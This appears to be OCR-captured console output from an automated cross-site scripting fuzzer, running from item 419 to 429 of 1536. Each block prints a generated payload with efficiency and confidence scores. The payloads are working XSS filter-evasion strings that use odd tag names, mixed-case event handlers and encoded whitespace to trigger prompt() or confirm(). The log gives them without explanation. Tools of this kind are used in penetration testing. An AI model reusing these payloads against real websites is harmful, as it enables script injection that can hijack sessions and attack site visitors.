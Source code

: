 ------------------------------------------------------------
 Payload: <html%09onpOinTeREnTeR+=+(prompt)``// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 419/1536
 
------------------------------------------------------------
 Payload: <HTML%09oNMOuSeOVEr%09=%09a=prompt,a()%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 420/1536
 
------------------------------------------------------------
 Payload: <HTml/+/oNPOiNtERentER+=+(confirm)()%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 421/1536
 
------------------------------------------------------------
 Payload: <d3v%0dOnmOUSEoVeR%0a=%0a(confirm)()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 422/1536
 
 Progress: 423/1536
 
------------------------------------------------------------
 Payload: <DETaiLs%0donPoInteReNTER%0d=%0dconfirm()%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 424/1536
 
 Progress: 425/1536
 
------------------------------------------------------------
 Payload: <A/+/oNmOUsEOVeR%0a=%0a(confirm)()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 426/1536
 
------------------------------------------------------------
 Payload: <a%0aONpoINTERENtEr%09=%09a=prompt,a()//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 427/1536
 
------------------------------------------------------------
 Payload: <d3v%0doNmoUSEover%0d=%0da=prompt,a()//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 428/1536
 
------------------------------------------------------------
 Payload: <d3v%0doNmouSEoveR%0a=%0aconfirm()//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 429/1536
 